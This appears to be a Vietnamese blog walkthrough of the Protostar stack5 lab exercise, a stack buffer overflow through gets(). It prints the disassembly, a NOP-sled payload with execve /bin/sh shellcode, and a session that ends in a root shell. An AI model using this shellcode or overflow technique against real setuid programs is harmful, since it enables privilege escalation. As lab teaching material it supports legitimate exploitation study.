 ```yaml
---
layout: post
title: stack5
---
```

Trong bài trước, chúng ta đã biết cách thay đổi giá trị `eip` của caller để điều hướng chương trình sau khi return từ callee.
Trong bài này, thay vì chỉ điều hướng đến những hàm có sẵn, chúng ta sẽ inject một đoạn mã vào bộ nhớ của chương trình và thực thi đoạn mã này.
Trước tiên, hãy xem source code của chương trình stack5:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
stack5 tương tự stack4. Chương trình này cũng dùng `gets` để nhập giá trị cho `buffer`. Kỹ thuật làm tràn bộ nhớ trong stack4 cũng sẽ được dùng ở đây. Sau đây là asm code của `main` trong stack5.
```asm
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
```
`buffer` sẽ chiếm bộ nhớ `esp + 0x10` đến `esp + 0x4f`.
Như đã giải thích trong bài trước, theo sau `buffer` là padding, `ebp` và `eip` của caller.
Chúng ta sẽ giả thiết padding là 8 byte.
(điều này đúng với đại đa số các lần chạy thử.)
Như vậy, tổng số byte cần nhập vào là 64 + 8 + 4 + 4 = 80 byte.

Giá trị cần ghi đè vào `eip` của caller sẽ là một địa chỉ trên stack, và là một trong những địa chỉ từ `esp + 0x10` đến `esp + 0x5f` đã lưu 80 byte.
Trong ví dụ đầu tiên sau đây, byte `\xcc` sẽ được dùng để thử nghiệm.
Cụ thể, byte `\xcc` là một lệnh có ý nghĩa như 1 breakpoint.
Khi instruction có mã này được chạy, chương trình sẽ thông báo đã chạm đến breakpoint.
Dùng gdb để kiếm tra bộ nhớ, ta thấy giá trị của `esp` là `0xbffff750`.
Do đó, ta sẽ chọn giá trị mới cho `eip` là từ `0xbffff760` đến `0xbffff79f`.
Sau đây là 1 ví dụ:
```bash
python -c "print '\xcc' * 64 + '\x60\xf7\xff\xbf' * 4" > input.txt
stack5 < input.txt
```
Bộ nhớ sau khi gọi hàm `gets` sẽ như sau. Phân biệt bằng màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">eip của caller</span>.
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff770:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff780:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff790:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff7a0:     0xbffff780      0xbffff780      0xbffff780      <span style="color:orangered">0xbffff780</span>
</pre>
Sau khi được nạp giá trị mới, <span style="color:orangered">địa chỉ</span> và <span style="color:yellow">lệnh</span> sau sẽ được thực thi ngay khi stack5 return.
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
<span style="color:orangered">0xbffff760</span>:     0x<span style="color:yellow">cc</span>cccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff770:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff780:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff790:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff7a0:     0xbffff780      0xbffff780      0xbffff780      0xbffff780

<span style="color:orangered">0xbffff760</span>:     <span style="color:yellow">int3</span>
</pre>
```bash
user@protostar:~$ stack5 < input.txt
Trace/breakpoint trap
```

Với 64 byte của `buffer`, chúng ta cần tìm hoặc viết chương trình có kích cỡ trong phạm vi này.
Các chương trình mẫu này có thể được tìm thấy trên internet với từ khóa shellcode.
Bản chất của các shellcode chính là mã máy, mà nếu disassemble ta sẽ được asm code tương tự như asm code của stack5.
Sau đây là đoạn shellcode dài 28 byte dùng để chạy chương trình /bin/dash trong linux:
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```
Lưu ý, đoạn chương trình này cần được chạy chính xác từ đầu đến cuối.
Nếu biết chính xác vị trí trên bộ nhớ lưu shellcode này, ta sẽ gán địa chỉ đó cho `eip` của caller.
Một kỹ thuật khác cho phép chọn địa chỉ `eip` một cách linh hoạt hơn là dùng chuỗi `nop` (có opcode `0x90`).
Đây là một trong số ít lệnh có thể dùng mà không sợ shellcode không bị lỗi hoặc không thể chạm đến.
Kỹ thuật này có tên là NOP-sled với nguyên lý là sử dụng chuỗi `nop` phía trước shellcode chính, sau đó ghi đè `eip` bằng 1 địa chỉ chứa `nop`.
Khi CPU chạy lênh `nop`, nó sẽ chỉ đơn giản là bỏ qua và chuyển tới lệnh kế tiếp. Việc này sẽ tiếp diễn cho đến CPU chạm tới shellcode.
Nếu không dùng `nop` và địa chỉ mới của `eip` cũng không chạm được tới shellcode, chương trình sẽ báo Illegal instruction và kết thúc.

Với ví dụ trên, ta có 36 byte `nop`, theo sau là 28 byte shellcode. Cụ thể như sau:
```bash
python -c "print '\x90' * 36 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x80\xf7\xff\xbf' * 4" > input.txt
(cat input.txt ; cat) | stack5
```
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     0xb7fd7ff4      0x0804958c      0xbffff778      0x080482c4
0xbffff770:     0xb7ff1040      0x0804958c      0xbffff7a8      0x08048409
0xbffff780:     0xb7fd8304      0xb7fd7ff4      0x080483f0      0xbffff7a8
0xbffff790:     0xb7ec6365      0xb7ff1040      0x080483fb      0xb7fd7ff4
0xbffff7a0:     0x080483f0      0x00000000      0xbffff828      0xb7eadc76
</pre>

<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff770:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff780:     0x90909090      0x6850c031      0x68732f2f      0x69622f68
0xbffff790:     0x89e3896e      0xb0c289c1      0x3180cd0b      0x80cd40c0
0xbffff7a0:     0xbffff780      0xbffff780      0xbffff780      0xbffff780
</pre>
## Ref
```bash
user@protostar:~$ python -c "print '\x90' * 36 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x80\xf7\xff\xbf' * 4" > input.txt
user@protostar:~$ (cat input.txt ; cat) | stack5
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
exit

```
